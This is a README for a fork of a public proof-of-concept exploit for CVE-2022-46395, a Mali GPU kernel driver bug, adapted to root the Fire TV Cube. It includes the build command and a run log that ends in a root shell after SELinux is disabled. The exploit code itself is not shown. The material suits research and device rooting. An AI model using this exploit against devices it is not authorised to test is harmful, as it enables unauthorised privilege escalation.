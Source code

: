 ## Exploit for CVE-2022-46395 to run on FireTV 3rd gen Cube

This is a fork of security researcher Man Yue Mo's <a href="https://github.com/github/securitylab/tree/main/SecurityExploits/Android/Mali/CVE_2022_46395">Pixel 6 POC</a> for CVE-2022-46395.  Read his detailed write-up of the vulnerability <a href="https://github.blog/2023-05-25-rooting-with-root-cause-finding-a-variant-of-a-project-zero-bug/">here</a>.  Changes have been made to account for FireOS's 32-bit user space. The POC exploits a bug in the ARM Mali kernel driver to gain arbitrary kernel code execution, which is then used to disable SELinux and gain root.  

The exploit was patched in PS7664/3772 (September 2023). For reference, the following command was used to compile with clang in ndk-21:
```
android-ndk-r21d/toolchains/llvm/prebuilt/linux-x86_64/bin/armv7a-linux-androideabi28-clang -DSHELL mali_user_buf.c mempool_utils.c mem_write.c -o gazelle_buf
```
For fastest results, run following a fresh reboot.  On average the POC takes 20-60sec to gain root.
```
gazelle:/ $ /data/local/tmp/gazelle_buf
fingerprint: Amazon/gazelle/gazelle:9/PS7652.3564N/0028488625152:user/amz-p,release-keys
benchmark_time 102
failed after 100
finished reset: 919423975 fault: 918468559 3795 err 0 read 3
found pgd at page 8
overwrite addr : 104100558 558
overwrite addr : 104300558 558
overwrite addr : 10410082c 82c
overwrite addr : 10430082c 82c
result 50
success after 128
gazelle:/ # 
```
